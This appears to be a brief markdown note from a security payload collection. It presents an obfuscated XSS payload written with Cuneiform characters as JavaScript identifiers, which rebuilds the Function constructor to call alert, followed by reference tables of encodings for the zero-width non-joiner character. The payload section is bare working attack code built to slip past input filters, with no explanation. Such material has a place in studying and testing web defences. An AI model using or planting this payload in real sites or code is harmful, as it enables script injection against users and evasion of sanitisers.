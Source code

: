 
## an XSS payload, Cuneiform-alphabet based
https://twitter.com/lutfumertceylan/status/1338494979199660032?s=20
```
𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()
```


## Encodings of Unicode Character 'ZERO WIDTH NON-JOINER' (U+200C)


| Character Set	| Hex Byte(s) |
|---------------|-------------|
| CESU-8	| e2808c |
| GB18030	| 8136a438 |
| UTF-16	| feff200c |
| UTF-16BE	| 200c |
| UTF-16LE	| 0c20 |
| UTF-32	| 0000200c |
| UTF-32BE	| 0000200c |
| UTF-32LE	| 0c200000 |
| UTF-7	| 2b4941772d |
| UTF-7-OPTIONAL	| 2b4941772d |
| UTF-8	| e2808c |
| windows-1256	| 9d |
| x-ISCII91	| e8 |
| x-UTF-16LE-BOM	| fffe0c20 |
| X-UTF-32BE-BOM	| 0000feff0000200c |
| X-UTF-32LE-BOM	| fffe00000c200000 |


|Encodings||
|---------|-|
|HTML Entity (decimal)	| &#8204;|
|HTML Entity (hex)	| &#x200c;|
|HTML Entity (named)	| &zwnj;|
|How to type in Microsoft Windows	Alt | +200C|
|UTF-8 (hex)	| 0xE2 0x80 0x8C (e2808c)|
|UTF-8 (binary)	| 11100010:10000000:10001100|
|UTF-16 (hex)	| 0x200C (200c)|
|UTF-16 (decimal)	| 8,204|
|UTF-32 (hex)	| 0x0000200C (200c)|
|UTF-32 (decimal)	| 8,204|
